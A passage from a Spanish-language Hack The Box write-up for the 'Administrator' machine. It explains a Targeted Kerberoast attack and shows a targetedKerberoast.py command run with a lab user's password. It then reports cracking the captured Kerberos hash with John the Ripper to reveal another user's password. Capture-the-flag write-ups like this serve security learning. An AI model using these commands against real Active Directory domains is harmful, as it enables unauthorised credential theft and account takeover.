 ![](assets/img/htb-writeup-administrator/administrator4_2.png)

Esta relación puede aprovecharse mediante un ataque de [Targeted Kerberoast](https://www.thehacker.recipes/ad/movement/dacl/targeted-kerberoasting#targeted-kerberoasting), que consiste en establecer temporalmente un SPN personalizado, forzar la emisión de un ticket Kerberos (TGS), capturar su hash y posteriormente eliminar el SPN. Para llevar a cabo esta técnica se utiliza la herramienta [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast.git), que automatiza todo el proceso.

```terminal
/home/kali/Documents/htb/machines/administrator:-$ sudo ntpdate administrator.htb
(venv)-/home/kali/Documents/htb/machines/administrator:-$ sudo python /home/kali/Documents/tools/targetedKerberoast/targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
![](assets/img/htb-writeup-administrator/administrator4_3.png)

Una vez obtenido el hash Kerberos, se procede a crackearlo con John the Ripper utilizando el diccionario `rockyou.txt`. El resultado revela que la contraseña asociada al usuario `ethan` es `limpbizkit`.
